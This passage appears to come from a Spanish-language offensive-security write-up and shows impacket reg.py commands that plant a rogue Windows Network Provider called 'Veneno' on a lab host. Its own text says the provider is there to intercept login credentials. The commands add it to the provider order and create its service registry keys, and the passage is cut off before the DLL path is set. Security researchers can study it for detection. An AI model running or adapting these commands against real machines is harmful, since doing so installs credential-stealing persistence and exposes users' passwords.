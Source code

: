 Despues añadiremos *Veneno* dentro de los providers, sera el que intercepte las credenciales
```impacket
reg.py mokete@Windows10.brain.body add -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order' -v ProviderOrder -vt REG_SZ -vd "VBoxSF,RDPNP,LanmanWorkstation,WebClient,Veneno"
```

<p align="center">
   <img src="/assets/img/NP-providers2.png">
</p>

Después iremos creando la "ruta" dentro del *ControlSet* hasta que le indiquemos que dll deberá cargar
```impacket
reg.py mokete@Windows10.brain.body add -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Veneno'
```

<p align="center">
   <img src="/assets/img/NP-providers3.png">
</p>

```impacket
reg.py smokete@Windows10.brain.body add -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Veneno\NetworkProvider'
```
<p align="center">
   <img src="/assets/img/NP-providers4.png">
</p>

```impacket
reg.py mokete@Windows10.brain.body add  -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Veneno\NetworkProvider' -v Class -vt REG_DWORD -vd 2
```

